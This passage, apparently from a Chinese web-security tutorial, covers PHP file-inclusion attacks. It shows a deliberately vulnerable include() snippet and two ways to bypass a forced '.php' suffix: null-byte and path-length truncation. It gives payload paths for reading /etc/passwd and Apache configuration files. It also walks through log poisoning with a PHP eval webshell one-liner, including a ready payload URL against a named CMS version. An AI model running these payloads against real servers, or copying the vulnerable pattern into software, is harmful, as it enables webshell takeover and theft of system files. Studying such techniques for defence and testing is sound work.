 **6\. 附加后缀截断**  

-----------------

例如包含读取 / etc/passwd 文件，网站源码会给一个后缀形成如：/etc/passwd.php, 导致无法读取文件内容。具体代码如下，此时该代码存在文件包含漏洞，由于在漏洞利用被包含的文件会被添加上. php 后缀，无法直接利用。

```
<?php
$test=$\_GET\['id'\];   
include($test).'.php';
?>
```

**绕过方法一：%00 截断**

```
http://www.test.com/test/a.php?c=1.txt%00
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZdzydTyF3UI7NibnZTdRcviauAg5IUcibn9aNV4Md2F3bCD71jGhe2MrFG7GTNs1evKroOLeFGmccRw/640?wx_fmt=png)

**注意**：%00 截断包含适合 php 版本 < 5.3.4，对应版本的配置文件 magic\_quotes\_gps=off，才能够进行绕过，否则 %00 会被转义。

****绕过方法二：**文件名附加./././././. 进行长度截断**

```
http://www.test.com/test/a.php?c=1.txt/././././././././././././././././././....
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZdzydTyF3UI7NibnZTdRcviabmWJ1gt5BDlFrYLEzibWctHJ8XW186ibCtZjWpRR4sbcz3qgTOHDYkQQ/640?wx_fmt=png)  

注意：Windows 服务器字节长度应大于 256，Linux 要大于 4096  

**7\. 包含日志拿 shell  
**

```
#文件包含漏洞读取apache配置文件
index.php?page=/etc/init.d/httpd
index.php?page=/etc/httpd/conf/httpd.conf
#Linux默认访问url的日志
/var/log/httpd/access\_log 
#网站访问日志无权限访问，但是cms本身会记录错误日志，这种日志可以访问
```

**拿 shell 步骤**  

*   访问../file.php?id=1<?php @eval($\_POST\[a\]);?>
    
*   后台在 / var/log/httpd/acess\_log 会生成带有一句话的日志，相当与将一句话以. log 形式写入了网站目录
    
*   然后根据文件包含漏洞 > 连接../file.php?file=…/…/…/…/var/log/httpd/acess\_log，getshell
    

**实例：**ekucms 某版本存在文件包含漏洞  

①通过访问该 url，将一句话木马写入日志文件中

```
http://192.168.1.3/ekucms2.4.1/?s=my/show/id/{~eval($\_POST\[x\])}
```
